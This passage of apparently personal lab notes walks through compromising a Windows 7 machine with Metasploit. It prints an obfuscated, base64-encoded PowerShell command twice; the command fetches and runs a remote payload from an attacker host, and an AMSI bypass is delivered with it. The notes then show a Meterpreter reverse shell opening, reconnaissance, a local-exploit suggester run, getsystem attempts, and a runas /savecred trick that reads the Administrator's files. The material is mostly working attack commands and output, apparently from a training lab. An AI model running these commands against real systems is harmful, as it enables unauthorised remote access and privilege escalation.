powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJAB6AD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAHoALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJAB6AC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAAxAC4AMQAxADcAOgA4ADAAOAAwAC8ATwBuAHUAMgAxAHIARgBiAC8AegByAHEARwA4AFMAOABQACcAKQApADsASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwADEALgAxADEANwA6ADgAMAA4ADAALwBPAG4AdQAyADEAcgBGAGIAJwApACkAOwA=
msf6 exploit(multi/script/web_delivery) > 

```

5. Run the powershell command in windows machine target

```
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJAB6AD0AbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAOwBpAGYAKABbAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBXAGUAYgBQAHIAbwB4AHkAXQA6ADoARwBlAHQARABlAGYAYQB1AGwAdABQAHIAbwB4AHkAKAApAC4AYQBkAGQAcgBlAHMAcwAgAC0AbgBlACAAJABuAHUAbABsACkAewAkAHoALgBwAHIAbwB4AHkAPQBbAE4AZQB0AC4AVwBlAGIAUgBlAHEAdQBlAHMAdABdADoAOgBHAGUAdABTAHkAcwB0AGUAbQBXAGUAYgBQAHIAbwB4AHkAKAApADsAJAB6AC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEAMAAxAC4AMQAxADcAOgA4ADAAOAAwAC8ATwBuAHUAMgAxAHIARgBiAC8AegByAHEARwA4AFMAOABQACcAKQApADsASQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAwADEALgAxADEANwA6ADgAMAA4ADAALwBPAG4AdQAyADEAcgBGAGIAJwApACkAOwA=
```

6. Go back to Metasploit

```
msf6 exploit(multi/script/web_delivery) > [*] 192.168.101.109  web_delivery - Delivering AMSI Bypass (939 bytes)
[*] 192.168.101.109  web_delivery - Delivering Payload (2092 bytes)
[*] Sending stage (200262 bytes) to 192.168.101.109
[*] Meterpreter session 1 opened (192.168.101.117:4444 -> 192.168.101.109:49250) at 2021-03-04 02:50:44 -0500

msf6 exploit(multi/script/web_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: WIN-IEGQMA4K1VH\sherwinowen
meterpreter > sysinfo
Computer        : WIN-IEGQMA4K1VH
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > run post/multi/recon/local_exploit_suggester

[*] 192.168.101.109 - Collecting local exploits for x64/windows...
[*] 192.168.101.109 - 24 exploit checks are being tried...
[+] 192.168.101.109 - exploit/windows/local/bypassuac_dotnet_profiler: The target appears to be vulnerable.
[+] 192.168.101.109 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 192.168.101.109 - exploit/windows/local/cve_2019_1458_wizardopium: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 192.168.101.109 - exploit/windows/local/cve_2020_1054_drawiconex_lpe: The target appears to be vulnerable.
[+] 192.168.101.109 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.101.109 - exploit/windows/local/ms16_014_wmi_recv_notif: The target appears to be vulnerable.
meterpreter > background 
[*] Backgrounding session 1...
msf6 exploit(multi/script/web_delivery) > use exploit/windows/local/ms16_075_reflection
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

```

## Escalation Path system

**Website links**

028 What-happens-when-I-type-getsystem-
https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

```
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h        Help Banner.
    -t <opt>  The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
```


## Escalation via RunAs

Copying file from the Administrator account to other account 

```
C:\Users\sherwinowen>runas /user:Win-IEGQMA4K1VH\Administrator /savecred cmd.exe
/c TYPE C:\Users\Administrator\Desktop\root.txt C:\Users\sherwinowen\Desktop\myr
oot.txt
```

